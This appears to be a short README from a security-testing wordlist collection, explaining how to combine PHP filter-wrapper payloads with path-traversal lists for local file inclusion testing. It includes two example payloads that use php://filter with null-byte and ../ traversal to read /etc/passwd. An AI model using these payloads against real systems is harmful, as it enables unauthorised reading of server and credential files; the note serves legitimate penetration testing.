 # LFI PHP wrapper 

For more comprehensive testing, the payload list given in `LFI-PHP-wrapper.txt` can be modified by replacing the common filenames (`index.php`, `/etc/passwd`) with those presented in dedicated LFI/path-traversal payload list (`LF.md`, etc.). This would effectively combine the capabilities of both wordlists.

Eg.

1. `php://filter/convert.base64-encode/resource=index.php` -> `php://filter/convert.base64-encode/resource=%00../../../../../../etc/passwd`
2. `php://filter/convert.base64-encode/resource=/etc/passwd` -> `php://filter/convert.base64-encode/resource=%00../../../../../../etc/passwd`
